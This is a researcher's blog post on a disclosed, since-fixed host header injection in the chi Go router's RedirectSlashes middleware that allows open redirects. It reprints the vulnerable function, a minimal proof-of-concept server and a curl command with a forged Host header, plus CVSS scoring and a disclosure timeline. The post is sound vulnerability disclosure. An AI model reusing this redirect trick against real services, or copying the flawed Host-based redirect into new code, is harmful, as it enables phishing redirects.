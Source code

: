 ```yaml
---
title: "I Ran Free SAST Tools on chi and Found a GHSA"
date: 2025-06-29T09:11:02-07:00
draft: false
toc: true
images:
tags:
  - go
  - cve-analysis
---
```

[GHSA-vrw8-fxc6-2r93](https://github.com/go-chi/chi/security/advisories/GHSA-vrw8-fxc6-2r93) is a Host Header Injection issue in the [chi framework](https://github.com/go-chi/chi) which allows arbitrary redirect to any domain while redirecting slashes. I did not receive a CVE for this finding "Given the lower impact (can't be exploited in browser or email client)" (verbatim from the maintainers) - which I can agree with to some extent. I will say though, that lower impact vulnerabilities should also get CVEs, else there would be no CVSS "low" score CVEs. My slight disagreement is probably more influenced by me wanting CVEs to my name than a technical outlook. Having said that, GHSAs are pretty recognized too, and in these parts, we take what we get.

This is somewhat a part 2 of my [previous blog](https://baishya.xyz/posts/cve-2025-30161/) about using free SAST tools to find CVEs. I was particularly attracted to looking at go codebases (although my go skills are questionable at best) due to the large number of go vulnerabilities I have assessed for various reasons at work. The workflow is basically the same as described in the previous blog - so I will skip the details here. TL;DR: clone repo, run semgrep, profit $$$ (?)

## About chi
From the README:
> chi is a lightweight, idiomatic and composable router for building Go HTTP services. It's especially good at helping you write large REST API services that are kept maintainable as your project grows and changes. chi is built on the new context package introduced in Go 1.7 to handle signaling, cancelation and request-scoped values across a handler chain.

### Chi Middleware
One of chi's powerful features is middleware—modular functions that sit between the incoming request and your handlers. Middleware in Chi allows you to add cross-cutting behavior like logging, authentication, rate limiting, or CORS handling in a clean and reusable way. Middleware functions wrap around routes or groups of routes, making them easy to apply globally or selectively. This modularity helps keep your codebase maintainable and your concerns separated.

This is very similar to other popular frameworks such as Express, next.js or Django.

### Redirect Slashes Middleware
The RedirectSlashes middleware in the Chi router is a built-in middleware that automatically normalizes request URLs by handling trailing slashes. It ensures consistent routing behavior and helps avoid issues where `/foo` and `/foo/` are treated as different routes.

## GHSA-vrw8-fxc6-2r93

I am feeling lazy, and there is no mind-bending state-of-the-art exploitation technique here, so I'll just append the report I sent to the maintainers. (With the original `RedirectSlashes` function added in since the original code has been fixed. The maintainers also added a note which has been highlighted.)

### Summary
The `RedirectSlashes` function in `middleware/strip.go` is vulnerable to host header injection which leads to open redirect.

We consider this a **lower-severity** open redirect, as it can't be exploited from browsers or email clients (requires manipulation of a Host header). [Added by maintainers]

### Details
The `RedirectSlashes` method uses the Host header to construct the redirectURL 

```go
func RedirectSlashes(next http.Handler) http.Handler {
	fn := func(w http.ResponseWriter, r *http.Request) {
		var path string
		rctx := chi.RouteContext(r.Context())
		if rctx != nil && rctx.RoutePath != "" {
			path = rctx.RoutePath
		} else {
			path = r.URL.Path
		}
		if len(path) > 1 && path[len(path)-1] == '/' {
			if r.URL.RawQuery != "" {
				path = fmt.Sprintf("%s?%s", path[:len(path)-1], r.URL.RawQuery)
			} else {
				path = path[:len(path)-1]
			}
      // Host header used to create redirect URL here
			redirectURL := fmt.Sprintf("//%s%s", r.Host, path)
			http.Redirect(w, r, redirectURL, 301)
			return
		}
		next.ServeHTTP(w, r)
	}
	return http.HandlerFunc(fn)
}
```

The Host header can be manipulated by a user to be any arbitrary host. This leads to open redirect when using the `RedirectSlashes` middleware

### PoC
Create a simple server which uses the `RedirectSlashes` middleware
```
package main

import (
	"fmt"
	"net/http"

	"github.com/go-chi/chi/v5"
	"github.com/go-chi/chi/v5/middleware" // Import the middleware package
)

func main() {
	// Create a new Chi router
	r := chi.NewRouter()

	// Use the built-in RedirectSlashes middleware
	r.Use(middleware.RedirectSlashes) // Use middleware.RedirectSlashes

	// Define a route handler
	r.Get("/", func(w http.ResponseWriter, r *http.Request) {
		// A simple response
		w.Write([]byte("Hello, World!"))
	})

	// Start the server
	fmt.Println("Starting server on :8080")
	http.ListenAndServe(":8080", r)
}
```
Run the server `go run main.go`

Once the server is running, send a request that will trigger the `RedirectSlashes` function with an arbitrary Host header
`curl -iL -H "Host: example.com" http://localhost:8080/test/`

Observe that the request will be redirected to example.com

```
curl -L -H "Host: example.com" http://localhost:8080/test/

<!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;
... snipped ...
```
Without the host header, the response is returned from the test server
```
curl -L http://localhost:8080/test/

404 page not found
```

### Impact
An open redirect vulnerability allows attackers to trick users into visiting malicious sites. This can lead to phishing attacks, credential theft, and malware distribution, as users trust the application’s domain while being redirected to harmful sites.

### CVSS score
I had originally scored this CVE as a Medium severity CVE with a score of 5.1 (CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:A/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N). This is the current score in the advisory.

Reflecting back, it can be argued that the score is 2.1 Low (CVSS:4.0/AV:N/AC:L/AT:P/PR:N/UI:A/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N)

## Conclusion
This is another win for my free SAST tools experiment. FWIW, this is also the first security advisory published for `chi`. I am not entirely sure if this is the first vulnerability discovered in `chi`. I did try looking for CVEs but I did not find any - so I would like to believe this is the first.

Sneak peek into my fuzzing escapades - I gave up on fuzzing using AFL++ on popular C/C++ codebases - due to many skill issues. I prefer spending my time away from work doing non-security things (which is probably obvious given the inconsistent post history here and the basic content of the few blogs that are posted). Therefore I determined that I don't want to spend the time needed to dive into the completely unchartered territory of fuzzing C / C++ binaries. I did however find that go code can be fuzzed too - and that had a easier entry point for me personally. So, I pivoted to fuzzing go code instead. Did I find something? 🤷. Thank you for reading.

## Timeline
* March 5, 2025: Reported issue to chi maintainers through Github.
* June 6, 2025: Commented on report due to no response from chi maintainers. Received acknowledgement of report receipt.
* June 9, 2025: chi maintainers confirmed the issue.
* June 19, 2025: Fix released, GHSA published.
* June 29, 2025: Blog published.
